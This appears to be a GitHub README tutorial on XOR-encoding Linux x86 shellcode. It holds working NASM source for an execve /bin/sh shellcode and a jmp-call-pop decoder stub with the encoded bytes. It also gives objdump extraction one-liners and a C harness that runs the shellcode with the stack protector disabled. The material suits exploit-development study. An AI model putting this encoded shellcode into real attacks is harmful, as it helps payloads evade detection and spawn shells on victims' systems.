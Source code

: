 # XOR Encoder

## Basic XOR Encoding/Decoding
```ASM
(A XOR B) XOR B = A
```

## XOR Encoding Process
#### 1) Create execve_04_sh_stack.nasm file
```ASM
global _start

section .text

_start:

	xor eax, eax			; Preparing Nulls in EAX register
	push eax			; Pushing the first Null DWORD
	
	push 0x68732f6e			; //bin/sh in reverse order
	push 0x69622f2f
	
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	
	; syscall()
	mov al, 0xb
	int 0x80
```

#### 2) Compile it
```bash
nasm -f elf32 -o execve_04_sh_stack execve_04_sh_stack.nasm
ld -o execve_04_sh_stack execve_04_sh_stack.o
```

#### 3) Extract shellcode from the binary
```bash
# This will only outputs the shellcode with copy and paste friendly format
# https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump

objdump -d ./PROGRAM | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

#### 4) XOR the extracted shellcode
```bash
https://github.com/bigb0sss/XOREncoder

./XOREncoder.py -s "<Shellcode>" -k "<Key>"
```

#### 5) Create a NASM file with XOR encoded shellcode
```asm
global _start

section .text

_start:

        jmp short call_decoder        ; JMP to "call_decoder" 

decoder:

        pop esi                       ; POPing "shellcode" on the ESI register 
        xor ecx, ecx                  ; Zero out ECX
        mov cl, 25                    ; Moving 25 (Lenght of the "shellcode") to C low
      
decode_loop:

        xor byte [esi], 0xAA          ; XORing wiht Key (= 0xAA)
        inc esi                       ; Increase ESI by one
        loop decode_loop              ; Looping "decode_loop" for 25 time
        jmp short shellcode           ; JMP to the decoded  "shellcode"

call_decoder:

      call decoder                    ; CALL "decoder"
      shellcode: db 0x9b, 0x6a, 0xfa, 0xc2, 0x85, 0x85, 0xd9, 0xc2, 0xc2, 0x85, 0xc8, 0xc3, 0xc4, 0x23, 0x49, 0xfa, 0x23, 0x48, 0xf9, 0x23, 0x4b, 0x1a, 0xa1, 0x67, 0x2a
```

#### 6) Compile it
```bash
nasm -f elf32 -o xor_01_sh_loop xor_01_sh_loop.nasm
ld -o xor_01_sh_loop xor_01_sh_loop.o
```

#### 7) Extract shellcode from the binary
```bash
objdump -d ./xor_01_sh.loop | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

#### 8) Add the extracted shellcode to "shellcode.c" (Shellcode Skeleton)
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0d\x5e\x31\xc9\xb1\x19\x80\x36\xaa\x46\xe2\xfa\xeb\x05\xe8\xee\xff\xff\xff\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

#### 9) Compile the "shellcode.c"
```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
